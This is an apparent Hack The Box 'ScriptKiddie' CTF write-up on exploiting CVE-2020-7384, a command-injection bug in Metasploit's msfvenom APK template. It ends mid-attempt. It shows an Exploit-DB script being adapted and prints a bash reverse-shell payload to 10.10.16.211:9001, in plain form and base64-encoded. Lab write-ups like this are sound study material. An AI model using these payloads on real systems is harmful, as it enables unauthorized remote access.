 # Metasploit CVE

The CVE exploits a vulnerability in Metasploit 6.0.11. There's no indication of what's running on the box, but this seems to be our best shot.

I found a few articles on the topic that were helpful:
- https://nvd.nist.gov/vuln/detail/CVE-2020-7384
- https://github.com/nomi-sec/PoC-in-GitHub
- https://github.com/nikhil1232/CVE-2020-7384

It seems the exploit is in the Android payload generation, and we need to generate a malicious APK. This article gives a good overview of how it actually works:

https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md#the-vulnerability

It appears to be due to a bad character escape when using `keytool` to generate a self-signed certificate, presumably for allowing the result of the msfvenom command to run as a valid APK. The page describes it better than I can:

![[Pasted image 20210612135954.png]]

## Trying the Exploit Manually

I copied across the exploit with `searchsploit -m multiple/local/49491.py` and renamed it to `gen-apk.py`.

I tried a good number of exploits here. The first thing I had to do was install `jarsigner` so the APK template could be generated:

```bash
$ sudo apt install -y default-jdk
```

The default payload just echoes some text:

```python
# Change me
payload = 'echo "Code execution as $(id)" > /tmp/win'
```

So we can change this to do something more interesting. I first tried a simple `/bin/bash` reverse shell:

```python
payload = 'bash -i >& /dev/tcp/10.10.16.211/9001 0>&1'
```

However, trying to generate this immediately crashed, giving me a "keytool error" which seemed to be [because of illegal characters](https://stackoverflow.com/questions/11808391/keytool-error-java-io-ioexceptionincorrect-ava-format).

Instead, I tried a base64 encoded payload:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/scriptkiddie/scripts]
└─$ echo "bash -c ‘bash -i >& /dev/tcp/10.10.16.211/9001 0>&1’" | base64
YmFzaCAtYyDigJhiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIxMS85MDAxIDA+JjHigJkK
```
